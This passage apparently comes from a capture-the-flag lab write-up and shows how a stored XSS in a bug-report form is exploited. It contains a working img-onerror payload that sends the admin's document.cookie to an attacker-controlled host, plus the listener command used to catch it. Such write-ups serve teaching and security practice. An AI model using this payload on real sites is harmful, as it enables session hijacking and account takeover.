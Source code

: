 ### Exploitation: XSS and Cookie Stealing

To exploit the Stored XSS vulnerability, we first set up a local HTTP server using the command:

```bash
python3 -m http.server 80
```

![Exploitation](picture17.png)

Next, we inject the following payload into the Report Bug form’s input field:

```bash
<img src=1 onerror="document.location='http://<attacker_ip>/steal?c='+document.cookie">
```

This payload triggers an onerror event in the image tag, which then sends the admin's session cookie to our server (http://10.10.14.58/steal).

*Once the admin submits the bug report, the injected script executes, stealing the session cookie and allowing us to hijack the admin’s session.*

![Exploitation](picture18.png)

